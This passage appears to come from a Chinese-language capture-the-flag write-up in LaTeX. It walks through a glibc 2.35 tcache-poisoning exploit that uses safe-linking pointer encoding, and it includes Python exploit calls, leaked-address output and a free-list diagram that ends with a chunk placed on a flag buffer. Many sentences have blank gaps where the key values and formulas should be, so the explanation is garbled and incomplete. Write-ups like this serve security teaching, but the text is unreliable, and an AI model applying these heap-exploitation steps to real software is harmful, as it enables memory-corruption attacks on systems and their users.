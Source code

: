 \begin{keybox}
兩個都對，但意思不同：

\begin{itemize}[leftmargin=1.4em,itemsep=1pt]
  \item {} 回傳的是 （\textbf{跳過標頭}）。
  \item 我想要拿到 （flag），所以我必須「假裝有一塊 chunk」
        它的標頭在 。
  \item 順便驗證對齊：，符合 glibc 2.35 的
         檢查（不然會噴 ）。
\end{itemize}
\end{keybox}

\begin{keybox}
我\textbf{不能}直接寫 ——glibc 讀  時會做
，也就是\textbf{再 XOR 一次 }。
所以寫進去的值必須是 ，而
（同頁）。這就叫 \textbf{PROTECT}。

實測：。
\end{keybox}

\subsection{步驟三：兩次 malloc，第二次就拿到 flag}

\begin{lstlisting}[style=py]
add(2, SIZE)      # 第一次：彈出 B          -> chunks[2] = B
add(3, SIZE)      # 第二次：彈出假 chunk    -> chunks[3] = heap+0x2a0  <== flag!
\end{lstlisting}

\begin{lstlisting}[style=raw]
[*] chunks[3] = 0x557e6a38b2a0  (flag buffer)
\end{lstlisting}

\begin{keybox}
\begin{lstlisting}[style=raw]
free(0); free(1) 之後:   head -> B -> A -> NULL
edit(1,0,...) 之後:      head -> B -> target(假) -> ?     (A 被繞過了)
add(2):  彈出 B            head -> target
add(3):  彈出 target       head -> REVEAL(target->fd)      (count 已歸零，無所謂)
\end{lstlisting}

\textbf{注意}：把  改成 target 之後，\textbf{A 就被踢出鏈了}
（B 的下一個不再是 A）。這沒關係——我們不需要 A 了，
只需要「第 2 次  拿到 target」。
\end{keybox}

